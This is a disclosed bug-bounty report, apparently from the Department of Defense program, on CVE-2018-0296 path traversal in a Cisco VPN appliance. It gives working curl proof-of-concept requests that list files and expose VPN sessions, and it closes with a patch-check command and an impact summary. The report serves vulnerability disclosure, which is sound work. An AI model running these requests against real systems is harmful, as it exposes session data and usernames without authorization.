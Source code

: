 # [CVE-2018-0296] Cisco VPN path traversal on the https://██████████

## Report Details
- **Report ID**: 694865
- **URL**: https://hackerone.com/reports/694865
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-14T13:52:12.316Z
- **Disclosed**: 2024-06-18T17:02:59.379Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
I discovered previously unidentified instance https://████████ in DOD network, vulnerable to the CVE-2018-0296 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0296)
It also accepts username and password for login flow instead secure cert auth.

##POC
```
curl -i -k "https://█████████/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
```
████

We can disclose user sessions by quering /sessions:
```
curl -i -k "https://█████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```


##Suggested fix
Updating to the latest version should fix the issue. Fixed version should give 404 "File not found" error.
Example of patched version:
```
curl -i -k "https://mvpn3.█████████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

## Impact

Path traversal, which can allow the unauthenticated attacker disclose sensitive information such as VPN sessions, files, usernames. Under some conditions it's possible to cacuse DOS attacks

## Attachments
No attachments
